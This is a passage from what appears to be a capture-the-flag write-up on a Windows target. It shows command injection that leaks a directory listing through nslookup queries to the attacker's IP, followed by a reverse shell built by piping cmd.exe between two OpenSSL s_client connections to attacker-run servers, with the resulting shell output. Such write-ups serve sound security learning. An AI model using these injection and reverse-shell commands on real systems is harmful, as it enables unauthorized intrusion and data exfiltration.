 Also, I located a OpenSSL binary in the `C:` drive. Using `& for /f "usebackq tokens=*" %i in (`dir /b c:\progra~2\openss~1.0\bin\`) do nslookup %i <ip>`, I listed the contents on the folder and found a `openssl.exe` file.

## Shell using OpenSSL

Let's test whether we can connect to a server using this openssl binary.
I created key and certificate for our server.

```bash
root@kali# openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
Generating a RSA private key
....+++++
................................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
root@kali# ls *.pem
cert.pem  key.pem
```

I ran a OpenSSL server using `openssl s_server -quiet -key key.pem -cert cert.pem  -port 73` and I used `& quiet ( echo "abcde" | c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect <ip>:73 )` to test the connection.

```bash
root@kali# sudo openssl s_server -quiet -key key.pem -cert cert.pem  -port 73
"abcde"
```

Great! We can send data over using OpenSSL. Now, in order to get a shell, we need to set up two SSL servers running on my machine and use `& c:\progra~2\openssl-v1.1.0\bin\openssl.exe s_client -quiet -connect <ip>:73 | cmd.exe /k /q | c:\progra~2\openssl-v1.1.0\bin\openssl.exe s_client -quiet -connect <ip>:136` to get a shell.
I already have a server running on port 73 now we will start one on port 136 and put the command above into the browser.

```bash
root@kali# openssl s_server -quiet -key key.pem -cert cert.pem  -port 136
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```
